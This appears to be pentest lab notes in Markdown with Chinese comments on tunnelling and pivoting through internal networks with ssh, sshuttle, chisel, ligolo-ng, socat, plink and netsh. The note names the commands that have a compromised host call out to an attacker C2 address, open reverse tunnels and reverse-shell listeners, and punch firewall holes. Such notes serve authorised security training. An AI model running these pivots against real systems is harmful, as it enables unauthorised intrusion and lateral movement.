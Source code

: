 # Tunnling
## ssh

**需要可交互的TTY！**
由SSH服务器进行转发
### Local Port Forwording
```bash
ssh -N -L [LocalHost]:<localport>:<DestHost>:<DestPort> <sshServer_user>@<sshServerIP>
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```
### Dynamic
```bash
ssh -N -D [LocalHost]:[LocalPort] <sshServer_User>@<sshServer_IP>
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```
#### Proxychains[^1]
```bash
sudo vi /etc/proxychains4.conf 
#在末尾添加socks5(4) <ssh_client_IP> <port>
socks5 192.168.246.63 9999

proxychains4 <command...>
#proxychains4 nmap -Pn -sT -n -vvv 172.16.246.217
```
### Remote  Port Forwording
本地起SSH Deamon服务
远程主机访问本地的SSH服务器进行转发。
```bash
ssh -N -R <sshServer_IP/localhost>:<sshServer_IP_port>:<forward_IP>:<forward_port>  <sshServer_User>@<sshServer_IP>
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4

#转发后的端口即可在本地(127.0.0.1)进行访问
```
### Remote Dynamic
```bash
ssh -N -R 9998 kali@192.168.118.4
tail /etc/proxychains4.conf #配置本地proxychains  ->> socks5 127.0.0.1 9998
proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64
```
### Tool -- sshuttle
1. SSH客户端具有root权限
2. SSH服务器需要安装Python3
```bash
#DMZ
socat TCP-LISTEN:2222,fork TCP:<Next_pivot>:22
# ssh 登录到目标枢纽，建立路由，指定我们想要使用的SSH连接字符串，以及我们想要通过此连接进行隧道传输的子网（10.4.50.0/24和172.16.50.0/24）
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```
## Chisel
https://ap3x.github.io/posts/pivoting-with-chisel/
default port:1080
`cp $(which chisel) /var/www/html #or /tmp` 对于linux的目标主机，可以直接复制kali所使用的版本 
Kali:
```bash
chisel server --port 8080 --reverse
#sudo tcpdump -nvvvXi tun0 tcp port 8080 开启抓包
```
Linux:
```bash
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
# 创建隧道
#chisel.exe client <chisel_server_IP>:<server_Port> R:<Local_Port>:<Remote_Host>:<Remote_Port> 
chisel.exe client 192.168.119.5:8080 80:172.16.6.241:80
chisel.exe client 192.168.119.5:8080 R:80:172.16.6.241:80 
```
## ligolo
Release: https://github.com/nicocha30/ligolo-ng/releases
### Set up
   
   ```bash
   $ go build -o agent cmd/agent/main.go
   $ go build -o proxy cmd/proxy/main.go
   
   # Build for Windows
   #GOOS=windows go build -o agent.exe cmd/agent/main.go
   #GOOS=windows go build -o proxy.exe cmd/proxy/main.go
   
   sudo ip tuntap add user ikan mode tun ligolo
   sudo ip link set ligolo up
   ```
### Run
   ```bash
   $ ./proxy -h # Help options
   $ ./proxy -autocert # Automatically request LetsEncrypt certificates
   # in lab use -selfcert instead of -autocert
   
   #Add agent;Add Route
   session [session_number] # --> start
   
   sudo ip route add [192.168.0.0/24] dev ligolo #[subnet]
   ip route list #查看添加的路由
   
   sudo ip route add 10.10.199.0/24 dev ligolo
   ```
   ### Add Agent of Victim
   ```powershell
   #Download the agent.exe/agent.elf
    ./agent -connect [attacker_c2_server.com]:11601 -ignore-cert
   
   # Double Pivot
   listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601 #在代理机上执行
   ./agent2.exe -connect [c2_agent1_IP]:11601 -ignore-cert #agent2通过agent1中转
   #session 命令切换到新的会话，然后使用 start 在该连接上开始一个隧道。
   
   sudo ip route add 172.16.6.0/24 dev ligolo #添加新的子网
   ```
   ### Reverse Shell & File Upload
   ```bash
   listener_list
   
   #在当前的代理机执行操作
   listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444 #Set up a listener for reverse shell
   listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8000 #Set up a file Transfer port.
   ```
# PortForward
通过中继机器访问远程/不同子网下的服务；
## Socat
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432 
iptables #也可以创建转发
```
## Plink
将远程服务3389拉到本地端口的9983使用
```powershell
.\plink.exe -ssh -l <login> -pw <password> -R <ssh_server_Socket>:<ssh_client_Socket> <sshServer_IP>
.\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 <Kali_IP>
```
No-tty Solution
```powershell
cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw -R 127.0.0.1:9833:127.0.0.1:3389 192.168.41.7
```
## Netsh
受UAC限制&&需要管理员权限
将远程的2222拉到能直接访问主机192.168.50.64:2222上
Listen.port ---> connect.port
```cmd
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

netstat -anp TCP | find "2222"
netsh interface portproxy show all
```
***
### 防火墙“凿洞”
防火墙只打开了80/3389端口，为了访问我们配置的2222端口，我们需要在防火墙上打一个洞。
**我们完成后还需要记得封住那个洞口！**
```powershell
#netsh advfirewall firewall子上下文 来创建这个端口。我们将使用add rule命令，并命名规则为"port_forward_ssh_2222"。稍后将使用这个名称来删除规则。
# Allow localport=2222 localip=192.168.50.64 'direction' dir=in -> 流量方向

netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```
***
>***一旦我们完成连接，我们需要记得删除刚刚创建的防火墙规则。***
***
```powershell
#端口转发规则也可以被删除
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
